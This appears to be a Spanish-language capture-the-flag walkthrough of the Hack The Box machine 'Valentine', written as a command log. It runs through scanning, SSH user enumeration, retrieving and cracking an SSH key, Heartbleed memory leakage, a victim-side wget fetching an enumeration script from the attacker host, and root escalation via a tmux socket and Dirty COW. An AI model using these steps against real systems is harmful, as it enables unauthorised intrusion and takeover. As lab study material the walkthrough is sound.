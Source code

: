 # Valentine

IP: 10.10.10.79

ping -c 1 10.10.10.79                                    
PING 10.10.10.79 (10.10.10.79) 56(84) bytes of data.       
64 bytes from 10.10.10.79: icmp_seq=1 ttl=63 time=116 ms     
                                                            
--- 10.10.10.79 ping statistics ---                          
1 packets transmitted, 1 received, 0% packet loss, time 0ms  
rtt min/avg/max/mdev = 116.271/116.271/116.271/0.000 ms 

### TTL OS
*nix(Linux/Unix)    64
Windows             128
Solaris             254

## Escaneo
nmap -p- --open -T5 -v -n 10.10.10.79 -oN allPorts

Abrimos la web por http y https
Vemos el certificado

nmap -sC -sV -p22,80,443 10.10.10.79 -oN targetedPorts

wfuzz -c --hc=404 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt http://10.10.10.79/FUZZ

nmap --script http-enum -p80 10.10.10.79 -oN webScan
entramos en 10.10.10.79/dev/

## Exploit 
cd exploit
searchsploit ssh enum
searchsploit -m exploits/linux/remote/45233.py
python 45233.py
pip install cryptography==2.4.2.
python 45233.py --username root 10.10.10.79
python 45233.py --username hype 10.10.10.79


## Hype Key
curl -k https://10.10.10.79/dev/hype_key
curl -k https://10.10.10.79/dev/hype_key | tr -d ' '
curl -k -s https://10.10.10.79/dev/hype_key | tr -d ' '
curl -k -s https://10.10.10.79/dev/hype_key | tr -d ' ' | xxd -ps -r
curl -k -s https://10.10.10.79/dev/hype_key | tr -d ' ' | xxd -ps -r > ../content/id_rsa
cd ../content
chmod 600 id_rsa
ssh -i id_rsa hype@10.10.10.79

### Crack Key pass
locate ssh2john
/usr/share/john/ssh2john.py id_rsa
/usr/share/john/ssh2john.py id_rsa > ~/htb/valentine/content/hash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash_key 
john --show hash
locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u

nmap --script "vuln and safe" -p443 10.10.10.79 -oN webVulnScan
sslyze --heartbleed 10.10.10.79:443
sslscan 10.10.10.79:443

google--> heartbleed exploit github
wget raw_exploit.py
python heartbleed.py -n 100 -p 443 10.10.10.79
echo "Text==" | base64 -d
ssh -i id_rsa hype@10.10.10.79
password = echo
whoami
pwd
cd Desktop
cat user.txt
sudo su -

## Escala de privilegios Tmux Opcion 1
uname -a --> 32 bits
lsb-release -a --> ubuntu muy antiguo
linux-smart-enumeration github
git clone repositorio
cd linux-smart
python -m SimpleHTTPServer

Desde la victima --> wget http://10.10.14.23:8000/lse.sh
chmod +x lse.sh
./lse.sh
./lse.sh -l 1

dev-sess --> ls -l 
type dev_sess --> socket file --> google: socket file escalating privilegios
tmux -S dev_sess
whoami
cd /root/
ls
cat curl.sh

## Escalada de privlegios Kernel Opcion 2
dirty cow /etc/passwd 2.6-3.9
copiamos el raw
nano dirty.c --> pegamos --> cambiamos user.username
cat dirty.c | grep gcc
compilamos
cat /etc/passwd
./dirty
su yintao
whoami
id
cd /root/
ls
hash_identifier
hashid

python -c 'import crypt; print crypt.crypt("hola", "salted")'


